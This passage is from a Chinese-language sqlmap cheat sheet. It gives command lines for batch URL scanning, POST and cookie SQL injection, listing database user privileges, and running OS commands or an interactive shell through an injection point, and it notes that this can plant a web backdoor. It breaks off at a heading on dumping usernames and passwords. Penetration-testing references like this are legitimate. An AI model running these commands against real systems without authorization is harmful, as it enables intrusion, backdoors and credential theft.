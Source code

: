 ### 指定文件（批量检查url）

文件中一行一个url

```shell
python sqlmap -m urls.txt
```

### post请求

检测post请求的注入点，使用BP等工具抓包，将http请求内容保存到txt文件中。

`-r` 指定需要检测的文件，SQLmap会通过post请求方式检测目标。

```shell
python sqlmap.py -u 'http://xx?id=x' --data "uname=admin&passwd=admin"
# 1.txt是抓取的POST请求头文件，可用 -p 指定参数注入位置，如下命令指定uname为参数
python sqlmap.py -r 1.txt -p uname
# 1.txt是抓取的POST请求头文件，可在文件中用*标记注入位置，例如uname=admin*&passwd=admin，标记uname为注入位置
python sqlmap.py -r 1.txt  
```

### cookie注入

```shell
# 说明:当需要对cookie注入的时候,必须使用--cookie选项 
# 因为post的数据长度为0,但是又想使用post方法进行注入,则使用--data "",使用--data选项后, sqlmap自动使用post方法。
# 注意:
# 1. sqlmap不支持使用--method指定http请求的方法
# 2. 默认不扫cookie的内容，必须是level大于等于2才能扫cookie里的内容
# 3. cookie默认的分隔符为";"
python sqlmap.py -u [url] --cookie="SESSIONID=xxxx;NAME=ichunqiu;" --level 2 --data ""
```

### 测试注入点权限

```shell
python sqlmap.py -u [url] --privileges          //测试所有用户的权限
python sqlmap.py -u [url] --privileges -U sa    //测试sa用户的权限
python sqlmap.py -u [url] --roles               //测试所有用户的权限
# 说明：当前用户有读取包含了数据库管理系统中用户信息的系统表的权限时使用这一参数可以列举数据库管理系统中用户的权限。
#      通过用户权限可以判断哪些用户是管理员
#	   注意：若目标是MSSql数据库，这一参数会列出每个用户是否是管理员而不列出每个用户的具体权限。
```

### **利用注入注入点执行Shell命令** 

```shell
python sqlmap.py -u [url] --os-cmd="net user"   // windows系统执行net user命令
python sqlmap.py -u [url] --os-shell            // linux系统交互式shell
# 危害：用-os-shell命令可以模拟一个真实的shell，可以使用 INTO OUTFILE写进可写目录，创建一个web后门。
# 注意：1.需要有权限使用特定函数 2.数据库为mysql、postgresql和sqlserver
```

### 枚举数据库的用户名和密码
